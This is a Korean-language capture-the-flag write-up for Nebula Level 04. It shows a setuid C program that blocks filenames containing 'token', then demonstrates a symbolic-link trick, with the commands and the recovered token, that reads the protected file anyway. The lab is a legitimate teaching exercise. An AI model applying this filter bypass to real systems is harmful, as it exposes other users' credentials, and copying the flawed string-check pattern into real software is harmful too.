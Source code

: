 # Level 04

## Plot

### About

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## strstr을 우회하자

`/home/flag04` 디렉토리 아래에는 `token`파일과 `flag04` 실행파일이 있다. `token`은 아예 owner가 아니면 아무것도 못하게 만들어 놨다.

```text
level04@nebula:/home/flag04$ ls -l
total 8
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
```

아래 조건문이 `token` 파일을 읽는 걸 막고 있다. 어떻게 하면 여길 우회해 들어갈 수 있을까?

```c
if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
}
```

GNU시스템은 다른 파일을 가리키는 `Soft Link`와 `Symbolic Link`라는 걸 지원한다. Window 운영체제의 바로가기 처럼 포인터같은 역할을 하는 파일이다. `open`함수는 파일이 `Symbolic Link`인지 아닌지 구분할 수 있고, 링크일 경우 가리키는 파일을 사용한다. 이 점을 이용해 `token` 문자열을 필터링 하는 루틴을 우회할 수 있다.

```bash
level04@nebula:~$ ln -s /home/flag04/token symlink
level04@nebula:~$ /home/flag04/flag04 symlink
06508b5e-8909-4f38-b630-fdb148a848a2
```

`token`이 아닌 다른 이름으로 심볼릭 링크를 생성하고, `flag04`에 심볼릭 링크를 넘겨주면 링크가 가리키는 `token`파일을 `open`하게 된다!

## 참고

- [심볼릭 링크에 대한 GNU 메뉴얼](https://www.gnu.org/software/libc/manual/html_node/Symbolic-Links.html)